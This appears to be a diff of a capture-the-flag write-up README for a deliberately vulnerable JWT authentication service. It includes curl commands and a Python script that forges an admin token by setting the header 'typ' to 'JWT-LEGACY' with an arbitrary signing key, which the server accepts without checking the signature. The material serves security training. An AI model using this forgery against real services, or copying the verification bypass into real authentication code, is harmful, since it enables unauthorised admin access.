

Before and after one commit to unclePRO/hns-web-services, a Markdown page: jwt_auth/README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/jwt_auth/README.md
+++ b/jwt_auth/README.md
@@ -1,19 +1,40 @@
-# Service 8 — JWT Identity Portal: Writeup
+# Service 8 — JWT Identity Portal
 
-## 1. Service Number and Name
-**Service 8 — Internal Auth API** (JWT Identity Portal)
-A simulated corporate SSO portal that issues and validates JSON Web
-Tokens (JWTs) for internal microservices, running on port `8008`.
+| | |
+|---|---|
+| **Service** | Service 8 — Internal Auth API (JWT Identity Portal) |
+| **Category** | Web / Authentication — JWT Claim/Header Confusion |
+| **Difficulty** | Medium |
+| **Port** | `8008` |
+| **Target** | `<target-ip>:8008` |
+| **Author** | `<your-name>` |
 
 ---
 
-## 2. How to Exploit It — Step by Step
+## Synopsis
 
-**Step 1 — Get a baseline token**
+The internal SSO portal issues and validates JWTs for other
+microservices. A "legacy compatibility" code path lets the token's own
+`typ` header — a value the attacker controls — turn off signature
+verification for that same token. Setting `typ` to `JWT-LEGACY` makes
+the server accept an entirely self-signed, self-asserted admin token.
+
+---
+
+## 1. Enumeration
+
+**Step 1 — Get a baseline employee token.**
+
 ```bash
 curl -s http://<target>:8008/api/token | jq
 ```
-Decode it (jwt.io or any JWT decoder) and look at the header and payload:
+
+> 📸 **Screenshot:** terminal output of `/api/token`, showing the
+> issued JWT.
+
+Decode it (jwt.io or any JWT decoder) and inspect the header and
+payload:
+
 ```json
 // header
 { "alg": "HS256", "typ": "JWT" }
@@ -22,14 +43,32 @@ Decode it (jwt.io or any JWT decoder) and look at the header and payload:
   "iss": "Internal Auth API", "aud": "employee-portal", "exp": ... }
 ```
 
-**Step 2 — Confirm the obvious attempt fails**
+> 📸 **Screenshot:** jwt.io (or decoder of choice) showing the decoded
+> header and payload of the baseline employee token.
+
+**Step 2 — Confirm the obvious attempt fails.**
+
 ```bash
 EMP=$(curl -s http://<target>:8008/api/token | jq -r .token)
 curl -s -H "Authorization: Bearer $EMP" http://<target>:8008/api/admin/flag
 ```
-→ `403 Insufficient privileges`. A normal employee token, even with a signature that checks out, doesn't have `role: admin`.
 
-**Step 3 — Forge an admin token with a different header `typ`**
+```
+{"message":"Insufficient privileges"}  (403)
+```
+
+> 📸 **Screenshot:** terminal showing the `403 Insufficient
+> privileges` response for the normal employee token.
+
+A valid, correctly-signed employee token with `role: employee` is
+rejected by the admin endpoint, as expected.
+
+---
+
+## 2. Foothold / Exploitation
+
+**Step 3 — Forge an admin token with a different header `typ`.**
+
 ```bash
 python3 - <<'EOF'
 import jwt, time
@@ -46,12 +85,19 @@ print(jwt.encode(payload, "any-key-you-like", algorithm="HS256", headers=headers
 EOF
 ```
 
-**Step 4 — Submit it**
+> 📸 **Screenshot:** terminal showing the forged token being printed.
+> Note the signing key is arbitrary (`"any-key-you-like"`) — the
+> server will never check it.
+
+**Step 4 — Submit the forged token.**
+
 ```bash
 FORGED="<token from step 3>"
 curl -s -H "Authorization: Bearer $FORGED" http://<target>:8008/api/admin/flag
 ```
+
 **Result:**
+
 ```json
 {"flag":"HS{jwt_legacy_header_claim_escalation}","message":"Administrator authenticated"}
 ```
````
Also changed, not shown: other parts of jwt_auth/README.md (+56 -12 lines), nosql/README.md (+123 -41 lines).
